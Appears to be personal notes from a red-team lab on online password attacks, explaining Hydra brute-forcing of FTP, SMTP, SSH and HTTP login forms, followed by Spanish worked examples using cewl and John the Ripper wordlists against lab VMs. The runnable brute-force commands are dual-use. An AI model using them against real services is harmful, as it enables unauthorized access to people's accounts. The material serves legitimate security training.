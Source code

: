 Online password attacks involve guessing passwords for networked services that use a username and password authentication scheme, including services such as HTTP, SSH, VNC, FTP, SNMP, POP3, etc. This section showcases using a hydra which is a common tool used in attacking logins for various network services.  

## Hydra

Hydra supports an extensive list of network services to attack. Using hydra, we'll brute-force network services such as web login pages, FTP, SMTP, and SSH in this section. Often, within hydra, each service has its own options and the syntax hydra expects takes getting used to. It's important to check the help options for more information and features.  

### FTP  

In the following scenario, we will perform a brute-force attack against an FTP server. By checking the hydra help options, we know the syntax of attacking the FTP server is as follows:

```shell-session
hydra -l ftp -P passlist.txt ftp://10.10.x.x
```

`-l ftp `we are specifying a single username, use-L for a username wordlist
`-P Path` specifying the full path of wordlist, you can specify a single password by using -p.
`ftp://10.10.x.x` the protocol and the IP address or the fully qualified domain name (FDQN) of the target.

Remember that sometimes you don't need to brute-force and could first try default credentials. Try to attack the FTP server on the attached VM and answer the question below.

### SMTP  

Similar to FTP servers, we can also brute-force SMTP servers using hydra. The syntax is similar to the previous example. The only difference is the targeted protocol. Keep in mind, if you want to try other online password attack tools, you may need to specify the port number, which is 25. Make sure to read the help options of the tool.

```shell-session
hydra -l email@company.xyz -P /path/to/wordlist.txt smtp://10.10.x.x -v 
```


### SSH  

SSH brute-forcing can be common if your server is accessible to the Internet. Hydra supports many protocols, including SSH. We can use the previous syntax to perform our attack! It's important to notice that password attacks rely on having an excellent wordlist to increase your chances of finding a valid username and password.

```shell-session
hydra -L users.lst -P /path/to/wordlist.txt ssh://10.10.x.x -v
```

### HTTP login pages

In this scenario, we will brute-force HTTP login pages. To do that, first, you need to understand what you are brute-forcing. Using hydra, it is important to specify the type of HTTP request, whether GET or POST. Checking hydra options: hydra http-get-form -U, we can see that hydra has the following syntax for the http-get-form option:

`<url>:<form parameters>:<condition string>[:<optional>[:<optional>]`

As we mentioned earlier, we need to analyze the HTTP request that we need to send, and that could be done either by using your browser dev tools or using a web proxy such as Burp Suite.

```shell-session
hydra -l admin -P 500-worst-passwords.txt 10.10.x.x http-get-form "/login-get/index.php:username=^USER^&password=^PASS^:S=logout.php" -f 
```

`-l admin ` we are specifying a single username, use-L for a username wordlist
`-P Path` specifying the full path of wordlist, you can specify a single password by using -p.
`10.10.x.x `the IP address or the fully qualified domain name (FQDN) of the target.
`http-get-form` the type of HTTP request, which can be either http-get-form or http-post-form.

Next, we specify the URL, path, and conditions that are split using :

`login-get/index.php` the path of the login page on the target webserver.
`username=^USER^&password=^PASS^` the parameters to brute-force, we inject `^USER^` to brute force usernames and `^PASS^` for passwords from the specified dictionary.

The following section is important to eliminate false positives by specifying the 'failed' condition with `F=.`

And success conditions, `S=`. You will have more information about these conditions by analyzing the webpage or in the enumeration stage! What you set for these values depends on the response you receive back from the server for a failed login attempt and a successful login attempt. For example, if you receive a message on the webpage 'Invalid password' after a failed login, set` F=Invalid Password`.

Or for example, during the enumeration, we found that the webserver serves logout.php. After logging into the login page with valid credentials, we could guess that we will have `logout.php` somewhere on the page. Therefore, we could tell hydra to look for the text logout.php within the HTML for every request.

`S=logout.php` the success condition to identify the valid credentials
`-f` to stop the brute-forcing attacks after finding a valid username and password

You can try it out on the attached VM by visiting `http://10.10.196.7/login-get/index.php`. Make sure to deploy the attached VM if you haven't already to answer the questions below.

Finally, it is worth it to check other online password attacks tools to expand your knowledge, such as:  

-   Medusa
-   Ncrack
-   others!

### Ejemplos

- Generamos una lista de palabras para fuerza bruta al ftp
```
cewl -m 8 -w clinic.lst https://clinic.thmredteam.com
hydra -l ftp -P clinic.lst ftp://10.10.196.7
```

-  genramos una regla de john y la aplicamos para entrar por snmpt
```
[List.Rules:THM]  
Az"[0-9][0-9]"^[!@]

john -w=clinic.lst --rules=THM --stdout > wordlist1.txt

hydra -l pittman@clinic.thmredteam.com -P wl smtp://10.10.180.180:465/ -v -t 65 -R
```

- ahora un http-get con la lista de palabras original

```
hydra -l phillips -P clinic.lst 10.10.180.180 http-get-form "/login-get/index.php:username=^USER^&password=^PASS^:S=logout.php" -f -t 30
```

- expandimos la lista nuevamente con `john` y hacems un http-post con `hydra`>
```
john -w=clinic.lst --rules=Single-Extra --stdout > wordlist1.txt

hydra -l burgess -P wordlist1.txt 10.10.180.180 http-post-form "/login-post/index.php:username=^USER^&password=^PASS^:S=logout.php" -f 

```
